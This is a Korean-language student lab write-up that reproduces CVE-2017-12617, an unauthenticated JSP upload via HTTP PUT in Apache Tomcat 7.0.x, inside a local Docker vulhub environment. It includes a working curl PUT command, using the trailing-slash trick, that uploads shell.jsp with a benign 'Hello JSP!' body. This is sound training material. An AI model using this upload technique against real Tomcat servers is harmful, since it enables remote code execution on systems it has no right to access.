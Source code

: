 # Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

## 화이트햇 스쿨 3기 35반 편정혜\_9212

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 10

## 실행

### 1. 취약 환경 레포 클론

kr-vulhub 저장소를 클론하여 CVE-2017-12617로 이동합니다.

`git clone https://github.com/gunh0/kr-vulhub.git`

[https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`

![server-build](./capture1.png)

이후 http://localhost:8080으로 접속이 가능합니다.

![server-start](./capture2.png)

### 3. shell.jsp 파일 업로드

PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.

![Shell-jsp](./capture3.png)

### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

이 때, "Hello JSP!" 문구가 출력되면 PoC 성공입니다.

![Hello-JSP](./capture4.png)

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### Github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub](https://github.com/rainyhye/kr-vulhub)
